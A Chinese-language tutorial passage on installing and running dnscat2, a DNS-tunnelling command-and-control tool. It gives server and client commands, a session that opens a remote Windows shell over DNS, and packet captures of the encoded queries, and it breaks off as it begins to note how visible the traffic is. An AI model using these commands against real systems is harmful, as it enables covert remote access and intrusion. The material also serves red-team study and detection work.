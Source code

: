 > - exe：<https://downloads.skullsecurity.org/dnscat2/dnscat2-v0.07-client-win32.zip>
> - ps：<https://github.com/lukebaggett/dnscat2-powershell>

**安装与测试运行**

服务端：

```
安装
# 如果是上面地址直接下载的，则跳过
git clone https://github.com/iagox86/dnscat2.git
cd dnscat2
cd server
sudo gem install bundler
bundle install

运行

#启动
sudo ruby./dnscat2.rb abc.com --secret=123456   #方式1
sudo ruby./dnscat2.rb --dns server=127.0.0.1,port=533,type=TXT --secret=123456   #方式2
sudo ruby./dnscat2.rb abc.com --secret=123456 --security=open --no-cache   #方式3



```

客户端：

```
安装
# 如果是上面地址直接下载的，则跳过
git clone https://github.com/iagox86/dnscat2.git
cd dnscat2/client/
make

运行

dnscat --secret=123456 abc.com    #对应 方式1
dnscat --dns server=<your dnscat2 server ip>,port=553,type=TXT   #对应 方式2，注意使用--dns选项时，port不可省



```



```
获取shell
dnscat2> New session established: 9024
dnscat2> session -i 9024
Welcome to session 9024!
If it's a shell session and you're not seeing output, try typing "pwd" or something!
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.
C:\Users\REM\Desktop>


数据包：
172.16.1.2 > 172.16.1.3: 59036 [1au] TXT? 35bc006955018b0021636f6d6d616e642073657373696f6e00.test123.com.
104.131.93.152.53 > 172.16.1.2: 59036*- q: TXT? 35bc006955018b0021636f6d6d616e642073657373696f6e00.test123/0 [1d] TXT "6c29006955d5b70000"


35bc006955018b0021636f6d6d616e642073657373696f6e00.test123.com.

35bc006955018b0021636f6d6d616e642073657373696f6e00 为明显的
```